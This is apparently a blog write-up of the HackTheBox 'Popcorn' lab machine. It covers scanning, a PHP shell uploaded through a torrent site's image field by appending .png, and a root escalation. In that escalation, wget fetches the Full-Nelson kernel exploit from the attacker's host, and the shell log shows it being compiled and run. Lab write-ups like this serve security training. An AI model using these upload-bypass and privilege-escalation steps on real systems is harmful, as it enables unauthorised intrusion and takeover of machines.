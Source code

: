 ```yaml
---
layout: post
title:  "HackTheBox - Popcorn"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/popcorn/
---
```


# Nmap scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Dirsearch results
```
[06:17:51] 200 -  177B  - /
[06:17:52] 200 -  177B  - /index
[06:18:00] 200 -   48KB - /test
[06:18:28] 301 -  310B  - /torrent  ->  http://10.10.10.6/torrent/
[06:19:31] 301 -  309B  - /rename  ->  http://10.10.10.6/rename/
```

# Webapp things
'/torrent' from the directory bruteforce looks interesting, it directs to a torrent hosting site. There is capability to upload files but we cant due to being unauthenticated. Luckily theres also a signup form so we can be authenticated.
Attempting a straight file upload with a php shell and typical bypasses didnt end up working out. Since the name mentions torrents, i tried a torrent file such as the default kali torrent. This file works just fine. After uploading theres an option to upload an image along with the file. This time appending .png to our php shell allows us to get a connection once we navigate to '/torrent/uploads'


# Getting root
Digging around searchsploit and exploitdb for a kernel exploit was an idea because the kernel is dated as 2009. 
```
“Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privilege Escalation”
``` 
Use wget on the box to get the file, compile and execute to gain root.
```
www-data@popcorn:/dev/shm$ wget http://10.10.14.6:8000/15704.c
wget http://10.10.14.6:8000/15704.c
--2018-12-04 13:35:08--  http://10.10.14.6:8000/15704.c
Connecting to 10.10.14.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9487 (9.3K) [text/plain]
Saving to: `15704.c'

100%[======================================>] 9,487       36.7K/s   in 0.3s    

2018-12-04 13:35:08 (36.7 KB/s) - `15704.c' saved [9487/9487]

www-data@popcorn:/dev/shm$ gcc 15704.c -o fml 
gcc 15704.c -o fml
www-data@popcorn:/dev/shm$ chmod +x fml
chmod +x fml
www-data@popcorn:/dev/shm$ file fml
file fml
fml: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
www-data@popcorn:/dev/shm$ ./fml
./fml
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf840a280
 [+] Resolved econet_ops to 0xf840a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# cat /root/root.txt
cat /root/root.txt
<redacted>
# 
```

aaaaand done.
